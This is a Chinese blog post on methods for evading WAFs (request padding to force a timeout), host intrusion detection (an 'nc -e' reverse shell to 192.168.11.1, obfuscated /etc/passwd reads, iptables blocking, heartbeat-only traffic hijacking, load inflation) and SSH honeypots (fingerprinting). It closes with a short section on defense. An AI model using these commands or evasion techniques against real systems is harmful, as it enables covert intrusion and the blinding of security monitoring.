


# 安全产品绕过的一些思路

基于安全产品的攻防对抗一直比较热门的话题，各种绕过方式层出不穷，安全产品自身的防御能力是有限的，他不是一开发，部署完成就可以不管了，一劳永逸，防住所有攻击，他需要一个规则的持续完善，告警规则，拦截规则。只要是规则，就一定有疏漏，攻击者就能根据规则的疏漏绕过防护，防御者则根据绕过更新规则，最后演变成了规则的对抗，防御者就赌攻击者不知道内部告警规则。本文主要谈谈一个通用的安全产品绕过思路。

### WAF

WAF 的绕过已经是老生常谈的话题了，传统的对抗方式是正面对抗 waf 的规则，基于规则的疏漏，基于后端语言的一些特性，基于中间件处理数据的差异等等，这里不讲正面对抗，讲一下 WAF 工作模式的天然缺陷。

waf 的部署方式有多种，反向代理，物理串联，旁路模式等，用的比较多的是基于中间件做转发的架构，这种方式对现有业务的链路的侵入性较小

基本的工作流程是用户请求先到转发服务，转发服务将请求转发到 waf 集群，转发服务根据 waf 集群检测结果决定是否拦截请求。这就有一个问题，转发服务需要等待waf集群检测结果才能决定是否拦截，如果发送的包特别大， waf 集群返回结果特别慢，转发服务器会一直等吗？

遇到这种情况 waf 往往有两种选择，一是设置超时时间，规定时间内没有返回结果直接放行，二是一直等。大多数业务复杂的公司会选择第一种方式，由于业务体量大，不可控因素太多，很可能就有业务需要上传大文件，并且具体有多大不可估计，不确定 waf 的算力能否短时间内计算出结果，如果强行等待会使此类接口响应异常慢，最终影响的业务。

那么问题就来了，RFC 规定里并没有限制 POST 包的大小，也就是说 请求包能无限大，理论上 waf 集群检测的时间也会无限长，只要在攻击包中添加大量无用数据，使 waf 检测超时，那么转发服务器就会直接放行，从而绕过waf。

### HIDS

绕过 HIDS 可以说是最简单的，也可以说是最难的，说他简单是因为技术上讲在拿到机器权限后想要干扰上面一个进程正常工作有无数种方法，说他难是因为要拿到机器权限。

以实际场景来讲 HIDS 的绕过，假设有一台机器存在命令执行漏洞，你想完全控制机器，留后门也好，扫内网也好，但这台机器上装有 HIDS ，在执行命令时稍微不注意就会出发告警，然后GG，你该怎么办？你需要绕 HIDS。

HIDS 根据实现原理有不同的绕过方式，这里列几个：

1. 上传自己的 bash

2. cp bin/bash test  nc -e test 192.168.11.1 6666

3. 进程注入
4. 利用 linux 执行命令的特性 cat /et?/pass??，cat$a /etc$a/passwd

这些方式不通用，需要根据 HIDS 的实现来确认，比如反弹 shell 检测，HIDS 一般会检测两点，一是交互式 shell，二是 shell 进程输入输出是一个远程 socket，那 hids 怎么判断进程是否是交互式 shell 呢？进程名，那就改一下进程名呗。

这里再讲一些通用绕过思路

#### 网络阻断

HIDS 的 Agent 只会负责收集主机信息，并将主机信息发送至接收端，由接收端来做告警，只要能阻止 Agent 上报信息，就能让 HIDS 闭嘴。一个简单粗暴的方法就是 iptable 拒绝掉与接收端的通信，我怎么知道接收端的地址？看进程呗，常见的 HIDS 进程名。但这种强行阻断的方式不够优雅，因为强行阻断网络连接会使接收端显示这个机器离线，当然，对于大型企业来说，装有 HIDS 的资产上千上万台，每天离线，变更的机器有很多，你把这台机器搞离线了也没问题，HIDS 也不会告警（这要告警安全团队得炸）， 那么有没有更加优雅一点的方式呢？

要解决离线的问题就得知道接收端是怎么判断 Agent 离线的，很自然的就想到心跳包，如果能识别心跳包，做一个流量劫持，只放心跳包，其他全拦了，这就既能阻止告警，还能维持主机在线。心跳包长啥样这就得根据具体的 HIDS 分析了，这里分析某知名 HIDS 的心跳包特征

1. 从日志里能确认心跳包 50s 发送一次

2. 抓了下与接收端的流量，根据50s一次是间隔确认心跳包，发现心跳包长度为固定值 93，且以“#” 开头

3. 从日志里得知通过域名获取接收端地址

长度 93，“#” 号开头，50 s一次，这三个特征已经足够判断包是否是心跳包了，攻击流程

1. 修改本地 hosts ，将接收端域名解析到本地
2. 假设接收端通讯端口为 7123，本地监听 7123 端口，同时与接收端 7123 端口建立连接
3. 判断包是否为心跳包，是则转发到接收端，不是不做转发

实际操作中有几个细节，一是需要 kill 掉 hids 进程使hosts 生效（hids会自动重启），二是不能马上开启拦截，因为进程重启后会向接收端发出登录请求，这些请求不能拦截，否则登录不能成功，正确做法是设置一个拦截时间，比如 5分钟后才开始拦截。确保 Agent 正常登录。

通过流量劫持的方式已经能实现在保证主机在线的同时不让 HIDS 告警了，并且这是一种通用对抗 HIDS 的思路。

#### 利用 HIDS 的安全机制

HIDS 部署在业务机器上，一个无法避免的问题就是会占用业务机器的系统资源，衡量 HIDS 的一个指标就是系统资源占用，研发会用尽一切方式在保证功能的情况下降低 HIDS 是的资源占用，但作为一款合格的安全产品一定会有一个保底机制，那就是当特殊情况发生使 HIDS 系统占用资源过高时 HIDS 会有一个保底的方式，优先保证业务稳定性，这种机制一般是暂时放弃部分消耗资源的检测。

举个例子，HIDS 一般会有一个文件监控的功能，检查是否存在一些木马后门，典型的就是监控 web 目录，做 webshell 检测，但对于目录文件变动很快的机器，这样的监控就会很吃资源，那么 HIDS 可能会有两种选择，一是根据系统负载情况决定文件检测速率，二是始终使用一个安全的低速检测。无论哪种方式都可以上传大量无用文件来延缓 HIDS 检测出 webshell 的时间。从而进行一些其他操作。

如果有机器执行命令的权限，也可以直接上去跑一些垃圾进程，将系统负载打上来，让 HIDS 做一个退让，从而实现绕过 HIDS 。

### 蜜罐

蜜罐的对抗实际上就是对蜜罐的识别，在不触发蜜罐告警的情况下识别蜜罐，蜜罐按交互类型可以分三种：

低交互蜜罐：简单监听端口，只要与监听端口建立连接就告警，几乎没有任何交互（连接就告警，没有操作空间）

中交互蜜罐：利用各大语言的相关类库实现一个具有交互性的服务，限制其功能确保安全性。或者根据相应服务协议自己实现一个简单的交互（从连接到告警中间有一些协议上的交互）

高交互蜜罐：搭建真实操作系统（没玩过）

这里的识别主要针对中交互蜜罐，原理就是从与蜜罐建立网络连接到蜜罐发出告警中间会有一些网络交互，如果在这个交互过程中蜜罐的行为和真实服务的行为存在差异，哪怕是很细微的差异，就能识别蜜罐，同时不触发告警。

还是给一个分析例子，某国内知名开源蜜罐的 SSH 服务就存在这个问题。先放一张 SSH 协议的工作流程图。

某蜜罐的 ssh 服务告警是在认证阶段客户端向服务器发出认证请求后，通俗讲就是输入密码按下回车。所以我们能操作的阶段就是整个传输阶段，传输阶段中有一个版本协议交换的过程，客户端连接服务端后服务端会返回自己的 ssh 版本号，此时客户端应该发送自己的 ssh 版本，那如果客户端发送的不是版本号服务端会怎么处理呢？

正常 ssh 服务如果接收到了非预期的数据会中断连接，并返回 “Protocol mismatch.”，而某蜜罐则不会返回任何内容，连接也不会断开

那么识别方式就来了，10几行代码识别某蜜罐，发送 “hellow” recv 超时则是蜜罐

某蜜罐的 ssh 是通过谷歌的开源库实现的，实际上这是谷歌的这个 ssh 库处理时的特征，很多蜜罐是自己实现服务协议的，识别思路还是这个，找出一些交互的差异，比如协商算法时蜜罐返回的支持的算法是那些固定的？返回的数据有没有顺序问题？异常数据的处理方式？

关于蜜罐的识别还有一个通用方式，那就是端口异常开放，比如开了很多很多端口，3389+22 等冲突端口，这就得看部署方给不给机会了，不过有一点需要注意，在扫描端口时不能用全连接的扫描方式，因为很多蜜罐一建立连接就告警，即使你识别了也来不急了。

### 方法论：安全产品绕过通用思路

三点：

1. 安全与业务存在冲突
2. 冲突发生时安全会做退让
3. 用尽一切方式 触发/放大 冲突，迫使安全让步

关于这三点在 waf 和 HIDS 上都有体现

WAF 与业务的冲突就是响应时间，通过大包的方式将这个冲突放大，从而让 waf 放弃检测

HIDS 与业务的冲突就是系统资源，想办法将系统负载打高，让 hids 暂时放弃部分功能

其他类似的安全产品，比如 RASP（没玩过），冲突同样是系统资源，RASP 会不会在系统负载较高时放松或者放弃检测？从安全产品设计上讲应该是需要有这么一个保底机制的，毕竟业务优先。

### 关于防御

上面讲的一些绕过思路很多都是产品设计就存在的问题，即使知道也很难完全杜绝，比如 HIDS 那些问题，如果攻击者能搞到机器执行命令的权限，就一定有办法绕过 HIDS ，那防御方能做什么呢？虽然攻击者可以阻断 HIDS 的网络通信，但阻断前攻击者的一些行为是可以收集的，并且可以通过这些行为做出告警。

举个例子，攻击者想阻断 HIDS 的通信，如果通过 iptable ，那么执行的命令就包含 iptable 以及 HIDS 接收端的地址，那就可以加一条告警规则，捕获这种想阻断网络的行为。那你可能会说，我用 iptable 限制网络时不直接输出接收端 ip ，我输入接收端所在的 ip 段，那就能绕过你这条规则。没错，能绕过，而且有无数方式绕过，前提是你得知道有这一条告警规则，那如果不知道呢？这就是开篇讲的，安全产品自身能力是有限的，需要一个规则的持续运营，对抗很大程度上成了规则的对抗。攻击者：我就赌你不知道我的攻击手法，绕过手法。防御者：我就赌你不知道内部的规则。

当然，这种安全看起来是有问题的，防御方过于被动，但目前很多安全产品确实存在这样的问题。以前觉得基于规则的 WAF 太被动了，然后把检测挪到主机上，有了 HIDS ，但现在又要用规则来保证 HIDS 不被绕过，最终还是没有离开规则